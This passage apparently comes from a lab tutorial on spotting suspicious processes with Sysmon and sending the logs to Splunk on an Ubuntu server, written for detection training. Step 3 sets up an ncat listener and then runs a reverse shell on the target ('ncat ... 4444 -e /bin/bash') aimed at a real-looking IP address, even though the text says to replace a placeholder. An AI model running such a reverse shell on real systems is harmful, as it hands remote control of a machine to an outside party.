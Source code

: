     - Save and restart Sysmon:
        
        ```bash
        
        sudo sysmon -i sysmon-config.xml
        
        systemctl restart sysmon
        
        ```
        

---

### **Step 3: Simulate a Suspicious Process Execution**

1. **Simulate a Reverse Shell**:
    - On the **attacking machine**, use Netcat to create a listener:
        
        ```bash
        apt install ncat
        
        ncat -lvnp 4444
        
        ```
        
    - On the **target server**, execute the reverse shell:
        
        ```bash
        
        apt install ncat
        ncat 65.20.67.137 4444 -e /bin/bash
        
        ```
        
    - Replace `<attacker-ip>` with the IP address of the attacking machine.
2. **Verify the Process Execution on Victim machine**:
    - List running processes on the Ubuntu server:
        
        ```bash
        
        sudo lsof -i :4444
        
        netstat -tulnp | grep 4444
        
        ps -p <PID> -o pid,user,cmd //Check Running Processes
        
        ```
        

---

### **Step 4: Configure Splunk for Log Monitoring**

1. **Set up Sysmon logs forwarding**:
    - Configure Splunk Universal Forwarder to monitor Sysmon logs:
        
        ```bash
        
        sudo nano /opt/splunkforwarder/etc/system/local/inputs.conf
        
        ```
        